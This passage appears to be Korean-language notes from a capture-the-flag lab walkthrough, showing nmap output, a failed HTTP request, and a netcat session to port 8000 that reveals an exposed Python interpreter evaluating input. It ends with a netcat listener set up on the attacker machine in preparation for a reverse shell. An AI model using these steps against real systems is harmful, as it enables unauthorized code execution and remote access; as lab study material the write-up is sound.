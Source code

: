 SF:e\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,"so
SF:urce\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Java
SF:RMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\
SF:n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20
SF:bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x20n
SF:ull\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.67 seconds

# http 10.10.247.143/ -> 페이지 탐색 불가

┌──(root㉿docker-desktop)-[/]
└─# http 10.10.247.143/

http: error: ConnectionError: HTTPConnectionPool(host='10.10.247.143', port=80): Max retries exceeded with url: / (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7ffffd8d6f90>: Failed to establish a new connection: [Errno 111] Connection refused')) while doing a GET request to URL: http://10.10.247.143/

# nc 10.10.247.143 8000

┌──(root㉿docker-desktop)-[/]
└─# nc 10.10.247.143 8000
ls
name 'ls' is not defined

# 명령어 실행 되는 것 확인

(root㉿docker-desktop)-[/]
└─# nc 10.10.247.143 8000
print(1)
name 'ᅦprint' is not defined
^[[D^[[A^[[A
invalid syntax (<string>, line 1)
print(1+1)
2
whoami
name 'whoami' is not defined
id

# 10.10.247.143:8000에서 Python 인터프리터가 실행 중

ls, whoami 등은 쉘 명령어라서 작동하지 않음
print(1+1) → 2가 나온 것으로 Python 환경임을 확인

# nc -lvnp 4444 -> 공격자인 내 머신에서 대기하기
